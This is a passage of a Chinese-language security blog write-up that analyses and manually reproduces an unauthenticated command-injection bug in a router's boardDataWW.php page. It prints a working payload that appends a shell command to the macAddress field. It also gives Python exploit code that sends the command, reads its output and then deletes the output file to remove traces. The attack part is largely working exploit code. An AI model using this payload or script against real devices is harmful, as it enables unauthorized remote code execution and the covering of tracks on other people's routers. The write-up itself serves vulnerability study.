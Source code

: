 
    {
        'macAddress': '112233445566;whoami > ./output #', 
        'reginfo'   : '0', 
        'writeData' : 'Submit'
    }//"利用分号拼接上命令并且重定向输出到 output文件中"
    

接下来分析这个片段,可以看到漏洞出现在`http://192.168.0.100/boardDataWW.php`这个页面，python里面用post将数据包发送过去，然后接着在去请求用命令行输出的output文件(命令行会显)，最后再次调用漏洞删除output这个回显文本，完成一次远程代码执行。

    url = 'http://' + host + '/boardDataWW.php'
    response = requests.post(url, data=data)
    
    if(response.ok):
        #read the command output result
        url = 'http://' + host + '/output'
        cmdOutput = requests.get(url)
        print(cmdOutput.text)
    
        #remove trace
        cmd = 'rm ./output'
        data = {
            'macAddress' : '112233445566;' + cmd + ' #',
            'reginfo' : '0',
            'writeData' : 'Submit'
        }
        url = 'http://' + host + '/boardDataWW.php'
        response = requests.post(url, data=data)
        else:
            print('[!] No response from the server.')  
    

0x03 手动复现学习：
------------

在没有登陆路由器的情况可以直接访问http://192.168.0.100/boardDataWW.php，所以导致这款路由器可以未授权RCE。

![image-20220630175015031](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220630175015007-649133004.png)

![image-20220630175317543](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220630175317255-1657225883.png)

这里随便填个数据，然后用burp抓个包看看。

这里Web前端有检测Mac地址的格式，格式应为：112233445566。

![image-20220630175431678](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220630175431436-586557154.png)

数据包格式如下：

![image-20220630175827118](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220630175826859-1090538961.png)

手动测试下命令执行的bug。

![image-20220630182024684](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220630182024881-836559977.png)
